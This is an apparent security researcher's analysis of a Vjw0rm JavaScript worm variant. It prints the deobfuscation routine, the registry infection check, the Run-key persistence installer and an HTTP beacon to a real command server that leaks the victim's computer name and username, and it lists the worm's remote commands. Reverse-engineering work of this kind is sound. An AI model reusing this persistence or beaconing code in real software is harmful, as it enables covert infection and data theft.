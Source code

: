 ```yaml
---
title: Mr. Robot Variant of Vjw0rm
description: An interesting analysis of a Vjw0rm variant.
toc: true
authors: c3rb3ru5d3d53c
tags:
  - vjw0rm
  - malware
  - analysis
categories: malware
date: '2020-02-01'
lastmod: '2020-02-01'
draft: false
---
```


I was monitoring `Any.Run` when a `.js` file peeked my interest due to the limited network traffic.

# Analysis

__Metadata:__
- Name: `1.js`
- MD5 : `3f438e857c45a4812dbfa331fd3b8011`

The first stage decrypts a long Unicode string then calls `eval` on its result as seen in _Figure 1_.

```js
function y(o,h) {
    var t;var s="";
    var d=(o+"").split("");
    for (var i=0;i<d.length;i++){
        t=d[i].charCodeAt(0);
        s+=String.fromCharCode(256-+t+(+h));
    }
    return s;
}
WScript.Sleep(10000);
eval("eval(y(\"<long_unicode_string>\"");
```
_Figure 1: Deobfuscation routine_

When threat actor(s) use `eval`, most of the time I can easily bypass this with replacing it with `console.log` and using `nodejs` to do the heavy lifting for us.

In our case here this is exactily what I did with removing the sleep and replacing `eval` with `console.log`.

After the script is run with modifications it is possible to obtain the pseudo deobfuscated code.

This means that the contents are still obfuscated to make it difficult for reading however we can identify some key functionality.

In this case most of the strings are stored in an array with the variable `_0x4ba2`.

This will have to be deobfuscated by hand as seen in _Figure 2_.

```js
try {
	U = sh[_0xb4af('0xd')](g[2]);
} catch (_0x55fd01) {
	var sv = fu[_0xb4af('0xe')]('\\');
	if (':\\' + sv[1] == ':\\' + wn) {
		U = _0xb4af('0xf');
		sh['RegWrite'](g[2], U, g[5]);
	} else {
		U = _0xb4af('0x10');
		sh[_0xb4af('0x11')](g[2], U, g[5]);
	}
}
Ns();
```
_Figure 2: Obfuscated result_

To achieve this I renamed the variable and simplified the code so its easily human readable.

`Vjw0rm` will first check for the registry key `HKCU\\vjw0rm` if the value is `TRUE` or `FALSE` to determine if the machine is already infected or not and will then run the `Install()` routine as seen in _Figure 3_.

```js
try{
	is_installed = sh['RegRead']('HKCU\\vjw0rm');
} catch(_0x55fd01){
	var sv = fu['split']('\x5c');
	if(':\x5c' + sv[0x1] == ':\x5c' + script_name){
		is_installed = 'TRUE';
		sh['RegWrite']('HKCU\\vjw0rm', is_installed, 'REG_SZ');
	} else{
		is_installed = 'FALSE';
		sh['RegWrite']('HKCU\\vjw0rm', is_installed, 'REG_SZ');
	}
}
Install();
```
_Figure 3: Check if installed_

The install routine will copy the script to the `%TEMP%` directory then establish persistence by setting the registry key `HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run\\WEW2BF0U0A` with the value being the path to `vjw0rm` as seen in _Figure 4_.

```js
function Install(){
	var worm_file = GetEnv('TEMP') + char_backslash + script_name;
	try{
		fs['CopyFile'](fu, worm_file, !![]);
	} catch(_0x349bb9){}
	try{
		sh['RegWrite']('HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run\\WEW2BF0U0A', '\x22' + worm_file + '\x22', 'REG_SZ');
	}catch(_0x58ded7){}
	try{
		var shell_app = GetActiveXObject(ACTIVEX_OBJECT_SHELL_APPLICATION);
		fs['CopyFile'](fu, shell_app['NameSpace'](0x7)['Self']['Path'] + '\x5c' + script_name, !![]);
	}catch(_0x151660){}
}
```
_Figure 4: Vjw0rm Persistence / Installation_

After installation has completed it will send a HTTP POST request to the C2 server `updatefacebook.ddns.net:6`.

Information of the victim machiine will be supplied to the C2 server by providing it in the `User-Agent` header.

The traffic will look like the following:

```http
POST /Vre HTTP/1.1
Host: updatefacebook.ddns.net:6
User-Agent: MR_ROBOT_18d0-EEF8\COMPUTER-NAME\USERNAME\caption\FullName\\TRUE\TRUE\
```

The `User-Agent` contains the campaign prefix, drive id, computer-name, username, caption, full name, TRUE/FALSE (if visual basic compiler present), TRUE/FALSE (if Vjw0rm is installed).

This variant has several command options, `Sc` (write file to disk and run it), `Ex` (run additional JSCript code), `Rn` (rename the UUID), `Up` (Run code w/ WScript), and `RF` (run file).

Analysis files for this sample can be downloaded [here](/samples/2020-02-01-vjw0rm.zip).

The password to all ZIP archives on this site is `infected`.

Thank you,

# References
- [Any.Run](https://app.any.run/tasks/8953f3c1-6058-46ec-b3f4-03b46d3c39f9/)
- [VirusTotal](https://www.virustotal.com/gui/file/ea59411c081c6fa100b6d57f1dfa06221834dd22243272e8fd450e89655b0d49/detection)
